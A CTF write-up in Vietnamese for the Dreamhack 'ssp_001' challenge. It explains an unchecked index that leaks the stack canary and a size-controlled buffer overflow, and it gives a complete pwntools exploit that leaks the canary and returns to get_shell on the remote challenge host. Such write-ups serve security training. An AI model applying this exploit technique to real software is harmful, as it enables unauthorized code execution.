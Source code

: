```
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

- bài này có 3 option
- option F : không có bug ở hàm này
- option P : nó sẽ in box[idx] mà ta đã nhập ở option F → vì không có kiểm tra idx → có thể leak được dữ liệu ( ta sẽ leak canary ở bài này vì có hàm get_shell nên có thể là ret2win )
- option E : có BOF , nhập size tùy ý

```Target : leak canary + BOF → ret2win```


script 

```
#!/usr/bin/python3

from  pwn import *

context.binary = exe = ELF('./ssp_001',checksec=False)
#p = process()
p = remote('host3.dreamhack.games',8842)
def read_(data):
    p.sendlineafter(b'> ',b'F')
    p.sendafter(b'box input : ',data)
def print_(idx):
    p.sendlineafter(b'> ',b'P')
    p.sendlineafter(b'index : ',str(idx))

def exit_(name):
    p.sendlineafter(b'> ',b'E')
    p.sendlineafter(b'Size : ',str(len(name)))
    p.sendlineafter(b'Name : ',name)
read_(b'a'*0x40)
Canary = [0]
for i in range(3):
    print_(0x80+i+1)
    p.recvuntil(b'is : ')
    canary = int((b'0x'+p.recv(2)).decode(),16)
    print("byte found: ",hex(canary))
    Canary.append(canary)
    print(Canary)
print(b'canary: ',Canary)
canary = u32(b''.join([p8(b) for  b in Canary]))
print("canary: ",hex(canary))
get_shell = p32(exe.sym.get_shell)
payload = b'a'*0x40
payload += p32(canary)
payload += b'a'*8
payload += get_shell
input()
exit_(payload)
p.interactive()